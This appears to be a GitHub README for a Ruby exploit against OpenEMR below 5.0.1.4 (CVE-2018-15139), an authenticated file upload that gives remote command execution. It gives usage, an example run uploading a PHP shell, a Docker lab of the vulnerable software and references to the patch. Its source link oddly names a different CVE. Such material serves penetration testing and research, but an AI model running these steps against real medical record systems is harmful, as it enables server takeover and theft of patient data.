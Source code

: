 # OpenEMR CVE-2018-15139 exploit

> OpenEMR < 5.0.1.4 - (Authenticated) File upload - Remote command execution

Exploit for [CVE-2018-15139][CVE-2018-15139].

## Usage

```
$ ruby exploit.rb -h
OpenEMR < 5.0.1.4 - (Authenticated) File upload - Remote command execution

Source: https://github.com/sec-it/exploit-CVE-2019-14530

Usage:
  exploit.rb exploit <url> <filename> <username> <password> [--debug]
  exploit.rb -h | --help

Options:
  <url>       Root URL (base path) including HTTP scheme, port and root folder
  <filename>  Filename of the shell to be uploaded
  <username>  Username of the admin
  <password>  Password of the admin
  --debug     Display arguments
  -h, --help  Show this screen

Examples:
  exploit.rb exploit http://example.org/openemr shell.php admin pass
  exploit.rb exploit https://example.org:5000/ shell.php admin pass
```

## Example

```
$ ruby exploit.rb exploit http://172.24.0.3 agent.php admin pass
[+] File uploaded:
http://172.24.0.3/sites/default/images/agent.php
```

## Requirements

- [httpx](https://gitlab.com/honeyryderchuck/httpx)
- [docopt.rb](https://github.com/docopt/docopt.rb)

Example using gem:

```bash
bundle install
# or
gem install httpx docopt
```

## Docker deployment of the vulnerable software

Warning: of course this setup is not suited for production usage!

```
$ sudo docker-compose up
```

The upload folder permissions are broken in the official OpenEMR docker image, so it is required to connect to the container and fix the permissions, eg.:

```
$ sudo docker exec -ti exploit-cve-2018-15139_openemr_1 /bin/sh
$ chmod u+w /var/www/localhost/htdocs/openemr/sites/default/images/
```

## References

- Target software: **OpenEMR**
  - Homepage: https://www.open-emr.org/
  - Source: https://github.com/openemr/openemr
  - Docker: see `docker-compose.yml`
  - Vulnerable version: < 5.0.1.4 (it means up to 5.0.1.3)
  - Patch: https://github.com/openemr/openemr/pull/1757/commits/c2808a0493243f618bbbb3459af23c7da3dc5485

This is a better re-write [EDB-49998][EDB-49998].

The vulnerability was found by [Project Insecurity](https://insecurity.sh/).

Analysis of the original exploit and vulnerability:

- [OpenEMR patches serious vulnerabilities uncovered by Project Insecurity](https://www.databreaches.net/openemr-patches-serious-vulnerabilities-uncovered-by-project-insecurity/)

[EDB-49998]:https://www.exploit-db.com/exploits/49998
[CVE-2018-15139]:https://nvd.nist.gov/vuln/detail/CVE-2018-15139
